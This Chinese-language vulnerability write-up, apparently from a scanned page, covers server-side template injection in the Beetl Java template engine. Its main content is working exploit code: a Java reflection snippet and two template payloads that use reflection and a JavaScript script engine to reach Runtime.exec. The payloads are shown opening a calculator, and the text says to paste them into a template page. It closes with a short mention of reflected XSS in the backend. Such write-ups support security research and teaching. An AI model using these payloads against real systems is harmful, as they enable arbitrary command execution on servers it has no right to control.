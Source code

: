 Beetl是⼀种Java模板引擎，⽤于⽣成动态内容。它提供了⼀种简单⽽强⼤的⽅式来将数据和模板结合，⽣成最终的输出。Beetl具有⾼性能、易于使⽤和灵活的特点，被⼴泛应⽤于Java
Web开发中。它⽀持模板继承、条件判断、循环、变量定义等常⻅的模板语法，同时还提供了丰富的内置函数和标签库，⽅便开发者进⾏模板的定制和扩展。  

语法学习移步⾄官⽹。https://www.kancloud.cn/xiandafu/beetl3_guide/2138960

官⽅⽂档说 不能直接使⽤危险函数，但是没有说不能⽤反射，为什么我知道可以⽤反射，因为在之前三篇模板注⼊教程中有讲过。

![]()

![]()  

⼿写反射代码

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package com;import java.lang.reflect.Method;public class Demo {public static void main(String[] args) throws Exception {//获取runtime类Class<?> aClass = Class.forName("java.lang.Runtime");//获取exec⽅法Method exec = aClass.getMethod("exec", String.class);//获取getruntimeMethod getRuntime = aClass.getMethod("getRuntime", null);//调⽤函数Object o = getRuntime.invoke(null, null);//执⾏命令exec.invoke(o,"open -a calculator"); }}

![]()

最终payload  

  *   *   * 

    
    
    ${@java.lang.Class.forName("java.lang.Runtime").getMethod("exec",@java.lang.Class.forName("java.lang.String")).invoke(@java.lang.Class.forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null),"open -a calculator")}

在page/template下，粘贴以上payload  

![]()

![]()

payload2  

  *   * 

    
    
    ${@Class.forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("s='open -a Calculator';java.lang.Runtime.getRuntime().exec(s);")}

![]()  

反射xss

查看了过滤器和拦截器，不存在过滤代码。

后台狂插。  

![]()
